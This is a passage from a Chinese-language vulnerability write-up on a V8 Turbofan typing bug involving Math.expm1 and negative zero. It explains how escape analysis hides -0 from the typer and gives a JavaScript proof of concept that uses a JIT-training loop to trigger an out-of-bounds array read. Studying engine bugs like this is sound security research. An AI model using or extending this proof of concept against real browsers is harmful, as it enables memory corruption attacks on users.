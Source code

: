 所以结合这个特性，我们利用逃逸分析来绕过前两个`typing`，这样Turbofan分析不出来这个是`-0`，就没法准确判断类型，只能是`Boolean`
```JavaScript
function foo(x) {
    let a = [0.1, 0.2, 0.3, 0.4];
    let o = {mz: -0};
    let b = Object.is(Math.expm1(x), o.mz);
    return a[b * 1337];
}
```

修改Poc
```JavaScript
function foo(x) {
    let a = [0.1, 0.2, 0.3, 0.4];
    let o = {mz: -0};
    let b = Object.is(Math.expm1(x), o.mz);
    return a[b * 1337];
}

console.log(foo(0));

for(var i = 0; i < 100000; i++)
    foo("0");

console.log(foo(-0));
```

跟踪优化过程，我们可以看到在`Typer`阶段，`SameValue`节点类型是`Boolean`

![IMAGE](/assets/resources/89D831FDD07E27C4A162F6E5753F753A.jpg)
